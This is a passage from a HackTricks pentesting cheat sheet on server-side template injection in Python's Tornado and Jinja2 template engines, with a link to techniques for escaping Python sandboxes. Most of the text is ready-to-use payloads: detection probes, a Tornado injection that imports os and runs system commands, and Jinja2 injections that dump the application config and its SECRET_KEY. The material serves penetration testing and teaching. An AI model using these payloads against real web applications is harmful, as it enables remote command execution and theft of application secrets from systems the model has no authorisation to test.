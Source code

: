 <div>
	<img src="./assets/logo_hacktricks.png" alt="HackTricks Logo" width="16" height="auto">
	<span style="color: red; font-size: 110%;"><strong>HackTricks</strong></span>
</div>

[SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

[**#Python**]

Check out the following page to learn tricks about **arbitrary command execution bypassing sandboxes** in python:
[Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

[**#Tornado (Python)**]

```python
{{7*7}} = 49
${7*7} = ${7*7}
{{foobar}} = Error
{{7*'7'}} = 7777777

{% import foobar %} = Error
{% import os %}

{{os.system('whoami')}}
```

[**#Jinja2 (Python)**]

> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.
> 
```python
{{7*7}} = Error
${7*7} = ${7*7}
{{foobar}} Nothing
{{4*4}}[[5*5]]
{{7*'7'}} = 7777777
{{config}}
{{config.items()}}
{{settings.SECRET_KEY}}
{{settings}}

<div data-gb-custom-block data-tag="debug"></div>

{% debug %}


{{settings.SECRET_KEY}}
{{4*4}}[[5*5]]
```